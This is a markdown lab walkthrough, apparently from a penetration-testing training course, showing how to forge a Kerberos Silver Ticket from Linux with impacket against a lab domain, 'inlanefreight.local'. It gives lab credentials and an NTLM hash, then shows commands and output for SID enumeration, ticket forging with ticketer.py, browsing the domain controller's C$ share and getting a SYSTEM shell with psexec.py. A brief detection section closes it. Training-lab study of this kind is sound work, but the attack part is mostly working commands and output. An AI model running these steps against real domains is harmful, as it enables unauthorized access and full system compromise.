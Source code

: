 # Silver Ticket from Linux


## Linux 


On Linux, **impacket** can be used to craft a **Silver Ticket**. The tool [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) will retrieve the domain's, groups', and users' SID. 



Authenticate to 10.129.205.35 with user "htb-student" and password "HTB_@cademy_stdnt!"

DC01$'s NTLM hash is 542780725df68d3456a0672f59001987


## Retrieve the Domain's SID


	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs    
		                                                                                                    
	Password:                                                                                                
	[*] Brute forcing SIDs at dc01.inlanefreight.local                                                       
	[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]                                        
	[*] Domain SID is: S-1-5-21-1870146311-1183348186-593267556                                              
	498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)                                
	500: INLANEFREIGHT\Administrator (SidTypeUser)                                                           
	501: INLANEFREIGHT\Guest (SidTypeUser)                                                                   
	502: INLANEFREIGHT\krbtgt (SidTypeUser)                                                                  
	512: INLANEFREIGHT\Domain Admins (SidTypeGroup)                                                          
	513: INLANEFREIGHT\Domain Users (SidTypeGroup)                                                           
	514: INLANEFREIGHT\Domain Guests (SidTypeGroup)                                                          
	515: INLANEFREIGHT\Domain Computers (SidTypeGroup)                                                       
	516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)                                                     
	517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)                                                        
	518: INLANEFREIGHT\Schema Admins (SidTypeGroup)                                                          
	519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup) 
	520: INLANEFREIGHT\Group Policy Creator Owners (SidTypeGroup) 
	521: INLANEFREIGHT\Read-only Domain Controllers (SidTypeGroup)                                           
	522: INLANEFREIGHT\Cloneable Domain Controllers (SidTypeGroup)                                           
	525: INLANEFREIGHT\Protected Users (SidTypeGroup)                                                        
	526: INLANEFREIGHT\Key Admins (SidTypeGroup)                                                             
	527: INLANEFREIGHT\Enterprise Key Admins (SidTypeGroup)                                                  
	553: INLANEFREIGHT\RAS and IAS Servers (SidTypeAlias)                                                    
	571: INLANEFREIGHT\Allowed RODC Password Replication Group (SidTypeAlias)                                
	572: INLANEFREIGHT\Denied RODC Password Replication Group (SidTypeAlias)                                 
	1002: INLANEFREIGHT\DC01$ (SidTypeUser)             
	1103: INLANEFREIGHT\DnsAdmins (SidTypeAlias)                                                             
	1104: INLANEFREIGHT\DnsUpdateProxy (SidTypeGroup)                                                        
	1105: INLANEFREIGHT\derek.walker (SidTypeUser)                                                           
	1106: INLANEFREIGHT\carole.holmes (SidTypeUser)                                                          
	1107: INLANEFREIGHT\callum.dixon (SidTypeUser)                                                           
	1108: INLANEFREIGHT\beth.richards (SidTypeUser)                                                          
	1109: INLANEFREIGHT\amber.smith (SidTypeUser)                                                            
	1110: INLANEFREIGHT\jenna.smith (SidTypeUser)                                                            
	1111: INLANEFREIGHT\carole.rose (SidTypeUser)                                                            
	1112: INLANEFREIGHT\sqldev (SidTypeUser)            
	1113: INLANEFREIGHT\sqlprod (SidTypeUser)           
	1114: INLANEFREIGHT\sqlqa (SidTypeUser)             
	1115: INLANEFREIGHT\sql-test (SidTypeUser)          
	1116: INLANEFREIGHT\adam.jones (SidTypeUser)                                                             
	1117: INLANEFREIGHT\jacob.kelly (SidTypeUser)                                                            
	1118: INLANEFREIGHT\DMZ01$ (SidTypeUser) 
	1119: INLANEFREIGHT\SQL01$ (SidTypeUser)            
	1120: INLANEFREIGHT\WS01$ (SidTypeUser)             
	1121: INLANEFREIGHT\FILER01$ (SidTypeUser)          
	1122: INLANEFREIGHT\daniel.whitehead (SidTypeUser)                                                       
	1123: INLANEFREIGHT\annette.jackson (SidTypeUser)                                                        
	1124: INLANEFREIGHT\sandra.murphy (SidTypeUser)                                                          
	1125: INLANEFREIGHT\debra.rogers (SidTypeUser)                                                           
	1126: INLANEFREIGHT\htb-student (SidTypeUser)                                                            
	1127: INLANEFREIGHT\brian.willis (SidTypeUser)                                                           
	2103: INLANEFREIGHT\matilda.kens (SidTypeUser)
	
![lookupsids](/Ticket-Abuse/Silver-Ticket-w-Linux/images/sids.png) 
![lookupsids](/Ticket-Abuse/Silver-Ticket-w-Linux/images/sids-2.png) 
![lookupsids](/Ticket-Abuse/Silver-Ticket-w-Linux/images/sids-3.png) 


Once we have the domain's SID, we can craft a Silver Ticket using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py) 



## Create a Silver Ticket with ticketer.py 


	ticketer.py -nthash 542780725df68d3456a0672f59001987 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local -spn cifs/dc01.inlanefreight.local Administrator
		
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Creating basic skeleton ticket and PAC Infos
	[*] Customizing ticket for inlanefreight.local/Administrator
	[*]     PAC_LOGON_INFO
	[*]     PAC_CLIENT_INFO_TYPE
	[*]     EncTicketPart
	[*]     EncTGSRepPart
	[*] Signing/Encrypting final ticket
	[*]     PAC_SERVER_CHECKSUM
	[*]     PAC_PRIVSVR_CHECKSUM
	[*]     EncTicketPart
	[*]     EncTGSRepPart
	[*] Saving ticket in Administrator.ccache



The ticket has been forged and saved in the current **Administrator.ccache** directory. We can now use this ticket by importing it in the **KRB5CCNAME** environment variable and using any impacket tool with **-k parameter**. 

	> export KRB5CCNAME=Administrator.ccache 
	

![Ticketer.py](/Ticket-Abuse/Silver-Ticket-w-Linux/images/Ticketer.png) 



## Importing the Ticket and using it 



![smbclient.py](/Ticket-Abuse/Silver-Ticket-w-Linux/images/smbclient.png) 




	smbclient.py -k -no-pass dc01.inlanefreight.local
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by TheP[11/362]
		                                                                                                    
	Type help for list of commands                                                                           
	# shares                                                                                                 
	ADMIN$                                                                                                   
	C$                                                                                                       
	IPC$                                                                                                     
	NETLOGON
	Shares
	SYSVOL                                                                                                   
	# use C$                                                                                                 
	# ls
	drw-rw-rw-          0  Fri Oct 14 10:46:09 2022 $Recycle.Bin
	drw-rw-rw-          0  Mon Apr  3 15:13:28 2023 carole.holmes
	drw-rw-rw-          0  Wed Oct  6 09:26:26 2021 Config.Msi
	drw-rw-rw-          0  Wed Oct  6 15:38:04 2021 Documents and Settings
	-rw-rw-rw-         37  Mon Apr  3 15:12:37 2023 flag.txt
	-rw-rw-rw-  738197504  Mon Jan 15 10:20:11 2024 pagefile.sys
	drw-rw-rw-          0  Fri Feb 25 10:20:53 2022 PerfLogs
	drw-rw-rw-          0  Wed Oct  6 15:50:50 2021 Program Files
	drw-rw-rw-          0  Wed Oct  6 16:36:06 2021 Program Files (x86)
	drw-rw-rw-          0  Fri Oct 14 10:46:03 2022 ProgramData
	drw-rw-rw-          0  Fri Oct 14 06:43:03 2022 Recovery
	drw-rw-rw-          0  Thu Mar 30 11:11:55 2023 Shares



And since the SPN is in clear text and can be modified on the fly, impacket can do it for us and get us a remote shell on the compromised system. 



## Using PSExec to get a Remote Shell 


	> psexec.py -k -no-pass dc01.inlanefreight.local
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Requesting shares on dc01.inlanefreight.local.....
	[*] Found writable share ADMIN$
	[*] Uploading file yzDkorck.exe
	[*] Opening SVCManager on dc01.inlanefreight.local.....
	[*] Creating service ocYS on dc01.inlanefreight.local.....
	[*] Starting service ocYS.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.2628]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Windows\system32> whoami
	nt authority\system

	C:\Windows\system32> 


![psexec.py](/Ticket-Abuse/Silver-Ticket-w-Linux/images/psexec.png) 



## Detection


Silver Tickets are more limited when compared to Golden Tickets because their scope is only for the service that is being targeted on a specific host. However, they can be utilized to remain stealthier. Silver Tickets can be used for persistence when used to access computer-hosted services. Since computer account password rotation may be disabled, and AD does not prevent computer accounts from accessing resources, this type of Silver Ticket could likely be used for a very long time.

Silver Tickets forged with Mimikatz can be detected in a few ways.

1. **The account DOMAIN field is blank**. 
2. **The account DOMAIN field contains DOMAIN FQDN instead of just domain**. 


